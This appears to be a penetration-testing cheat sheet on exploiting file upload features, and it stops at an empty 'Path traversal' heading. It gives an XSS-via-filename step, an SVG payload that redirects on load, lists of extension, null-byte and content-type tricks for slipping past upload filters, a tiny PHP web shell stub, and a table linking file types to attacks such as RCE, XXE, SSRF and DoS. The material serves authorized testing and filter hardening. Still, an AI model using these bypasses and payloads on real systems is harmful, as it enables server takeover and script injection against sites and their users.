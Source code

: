 - **File Upload Exploitation**
    
    - **File upload To XSS**
        
        ```jsx
        ## file upload  through XSS
        upload a picture file, intercept it, change picturename.jpg to xss payload using intruder attack
        ```
        
    
    - **Open Redirect when uploading svg files**
        
        ```xml
        <code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='<http://www.google.com>'"
        xmlns="<http://www.w3.org/2000/svg>">
        </svg>
        </code>
        
        ```
        
```bash
# File name validation
    # extension blacklisted:
    PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
    ASP: .asp, .aspx, .cer, .asa
    Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
    Coldfusion: .cfm, .cfml, .cfc, .dbm
    Using random capitalization: .pHp, .pHP5, .PhAr
    pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
    # extension whitelisted:
    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\\x00.jpg
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\\
    file.
    .html
# Content type bypass
    - Preserve name, but change content-type
    Content-Type: image/jpeg, image/gif, image/png
# Content length:
    # Small bad code:
    <?='$_GET[x]'?>
    
# Impact by extension
asp, aspx, php5, php, php3: webshell, rce
svg: stored xss, ssrf, xxe
gif: stored xss, ssrf
csv: csv injection
xml: xxe
avi: lfi, ssrf
html, js: html injection, xss, open redirect
png, jpeg: pixel flood attack dos
zip: rce via lfi, dos
pdf, pptx: ssrf, blind xxe

# Path traversal
```